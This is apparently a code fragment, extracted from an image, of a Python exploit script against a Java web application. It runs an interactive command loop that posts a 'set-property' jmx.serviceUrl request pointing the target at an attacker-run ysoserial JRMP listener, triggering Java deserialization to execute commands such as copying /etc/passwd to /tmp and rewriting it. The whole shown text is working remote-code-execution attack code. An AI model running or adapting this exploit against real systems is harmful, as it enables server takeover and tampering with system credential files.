 while True:
    try:
        command = input("command (\033[92mnot reflected\033[0m)&gt; ")
        if command == "exit":
            print("Exiting...")
            break
        command = base64.b64encode(command.encode('utf-8'))
        command_str = command.decode('utf-8')
        command_str = command_str.replace('/', '+')

        pro = subprocess.Popen(
            "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'cp /etc/passwd /tmp/passwd'", stdout=subprocess.PIPE,shell=True, preexec_fn=os.setsid)

        print("[+] Copy file to tmp directory =&gt;", end=' ')
        burp0_url = remote + ressource
        burp0_headers = {"Content-Type": "application/json"}
        burp0_json = {
            "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
        r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
        if r.status_code == 500:
            m = re.search('(undeclared checked exception; nested exception is)', r.text)
            if m:
                print("\033[92mOK\033[0m")
            else:
                print("\n[-] Error")
                os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                sys.exit()
        else:
            print("KO")
            os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
            sys.exit()
        os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
        time.sleep(3)

        pro = subprocess.Popen(
            "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'sed -i 1cpwn /tmp/passwd'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

        print("[+] Preparing file =&gt;", end=' ')
        burp0_url = remote + ressource
        burp0_headers = {"Content-Type": "application/json"}
        burp0_json = {
            "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
        r = requests.post(
            burp0_url, headers=burp0_headers, json=burp0_json)
        if r.status_code == 500:
            print("\033[92mOK\033[0m")
        else:
            print("KO")
            os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
            sys.exit()
        os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
        time.sleep(3)
